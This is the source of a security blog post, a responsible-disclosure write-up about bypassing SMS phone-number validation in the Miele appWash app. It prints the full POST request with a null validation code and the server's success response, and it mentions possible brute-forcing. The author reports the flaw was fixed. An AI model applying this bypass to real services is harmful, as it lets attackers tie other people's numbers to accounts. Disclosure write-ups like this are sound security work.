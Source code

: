```yaml
---
layout: post
title:  "Write-up Miele appWash"
categories: security android
permalink: "/appwash-writeup/"
show_excerpts: True
---
```

Bypassing number validation and completing my first responsible disclosure.

# Background
When entering the wrong number validation code in an app used to pay for laundry, I saw some weird behavior.
As expected it gave an error about the code not matching but it also send same the code again and let me trough and enter the rest of the registration information.
When submitting the information I got the error again but no new SMS.
This prompted me to look into the internet traffic and I found some interesting things.

When I contacted Miele's incident response team they got back to me the following morning and resolved the issue within two weeks!
I have also been added to their [hall of thanks](https://www.miele.com/en/com/cybersecurity-5047.htm#p5052) which is nice.

# Summary  
The number validation can be bypassed without use of the validation code.  
By bypassing the validation someone could link any phone number to their account.

Note:  
The validation code does not seem to expire after wrong attempts so a brute-force attack might also be possible.

# Proof of Concept  
> This doesn't work anymore of course  

For this proof of Concept I used a secondary phone number, and the verification code was: `24062`, but knowing the code is not necessary.

The app submits the data with the following POST request:  
In the request I replaced `"validationCode":"12345"` with `"validationCode":null`

``` c
POST /api-rest/account HTTP/1.1
language: en
platform: appwash
Content-Type: application/json
Content-Length: 686
Host: www.involtum-services.com
Connection: close

{"salutations":"m",
"businessName":null,
"firstName":"X",
"lastName":"X",
"email":"placeholder@email.com",
"street":"X",
"zip":"X",
"city":"X",
"country":"BE",
"invoice_street":null,
"invoice_street2":null,
"invoice_zip":null,
"emailNotification":true,
"invoice_city":null,
"invoice_country":null,
"invoice_language":"en",
"language":"en","iban":"",
"bic":"",
"chamberOfCommerce":null,
"automatic_collection":false,
"account_prepaid":true,
"userName":"placeholder@email.com",
"validationCode":null,
"password":"password",
"mobile":[{
          "mobile":"+31622425986",
          "notification":false,
          "locked":false
         }],
"pushNotification":true,
"locationExternalId":null,
"tcAcceptedAnswer":"ACCEPTED",
"tcVersion":"1",
"currency":"EUR"}
```

# Observed Result  
The Account is created successfully and the server reacted with this result:

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:41:31 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 430
Connection: close

{
  "errorCode":0,
  "errorDescription":"",
  "token_expire_ts":0,
  "serverTime":1595439691,
  "errorDetailMessage":"",
  "activeSessions":[],
  "login":{"email":"placeholder@email.com",
           "password":null,
           "username":"placeholder@email.com",
           "externalId":"73252001",
           "language":"EN",
           "token":"2ea4ddd8:17352a3ed54:-6d70",
           "offlineAllowed":true,
           "manageOthers":true,
           "startMultiple":true,
           "startForOthers":false,
           "fcmToken":null,
           "appOS":null,
           "appVersion":null
         }
}
```
I could also successfully log into the app!  
![image could not be loaded](/assets/appwash_screenshot.png){: style="padding:16px"}

# Expected Result  
A server response like the one when you enter a wrong validation code, or another error.

``` c
HTTP/1.1 200 OK
Date: Wed, 22 Jul 2020 17:26:54 GMT
Server: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips
Strict-Transport-Security: max-age=63072000; includeSubDomains
X-Frame-Options: sameorigin
Content-Type: application/json
Cache-Control: no-cache, no-store, no-transform, must-revalidate, max-age=0
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: origin,content-type,accept,authorization,filter,language,platform,token
Access-Control-Allow-Credentials: true
Access-Control-Allow-Methods: GET,POST,PUT,PATCH,DELETE,OPTIONS,HEAD
Access-Control-Max-Age: 29030400
Content-Length: 235
Connection: close

{
  "errorCode":41,
  "errorDescription":"This validation code doesn't seem to be correct. Please check the validation code. (code 41)",
  "token_expire_ts":0,
  "serverTime":1595438814,
  "errorDetailMessage":null,
  "activeSessions":null,
  "login":null
}

```

# Possible mitigation
I suspect implementing server-side type checking would resolve this particular issue.   
However, this would not help against a possible brute-force attack.
